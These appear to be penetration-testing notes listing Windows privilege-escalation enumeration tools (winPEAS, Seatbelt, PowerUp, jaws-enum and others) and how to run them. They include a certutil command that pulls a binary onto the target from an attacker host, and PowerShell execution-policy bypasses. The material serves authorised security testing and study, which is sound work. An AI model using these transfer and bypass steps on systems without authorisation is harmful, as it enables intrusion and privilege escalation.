 ```yaml
---
category: Uncategorized
tags: []
---
```


| EXE's | PowerShell | Other |
| --- | --- | --- | 
| winPEAS.exe | Sherlock.ps1 | windows-exploit-suggester.py (Local) |
| Seatbelt.exe | PowerUp.ps1 | Exploit Suggester (Metasploit) |
| Watson.exe | jaws-enum.ps1 |
| SharpUp.exe | 


[[99.__Links (WINDOWS)#Exploring Automated Tools]]


#### winPEAS.exe
```bash - kali
git clone https://github.com/carlospolop/PEASS-ng
```

```bash - kali
wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASbat/winPEAS.bat
```

```bash - kali
wget https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F253%2Fmerge/winPEASx64.exe
```

```bash - kali
wget https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F253%2Fmerge/winPEASx86.exe
```

```bash - kali
wget https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F253%2Fmerge/winPEASany.exe
```

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```command prompt - windows
certutil -urlcache -split -f http://$KALI/winPEASx64.exe
```

Before running, we need to add a registry key and then reopen the command prompt:

```command prompt - windows
reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

Run all checks while avoiding time-consuming searches:

```command prompt - windows
.\winPEASx64.exe quiet cmdfast > winpeas.txt
```

Run specific check categories:

```command prompt - windows
.\winPEASx64.exe quiet cmdsysteminfo
```

[[4._File Transfers]]

#### Seatbelt.exe

https://github.com/carlospolop/winPE/tree/master/binaries/seatbelt

```powershell - windows
.\Seatbelt.exe all > Seatbelt.txt
```

To run specific check(s):
```powershell - windows
.\Seatbelt.exe<check> <check>
```

#### Watson.exe
HOW TO USE WATSON: https://vk9-sec.com/watson-find-missing-windows-patches-for-local-privilege-escalation/

```command prompt - windows
watson.exe
```

#### SharpUp.exe

HOW TO USE SHARPUP: https://medium.com/@markmotig/quick-intro-to-building-and-running-sharpup-alternative-to-powerup-ps1-d114d66e9a75

```powershell - windows
.\SharpUp.exe
```

#### Sherlock.ps1

#### PowerUp.ps1
```powershell - windows
powershell -ep bypass
```

```powershell - windows
. .\PowerUp.ps1
```

```powershell - windows
Invoke-AllChecks
```

#### jaws-enum.ps1

```powershell - windows
powershell -ep bypass
```

```powershell - windows
.\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
```

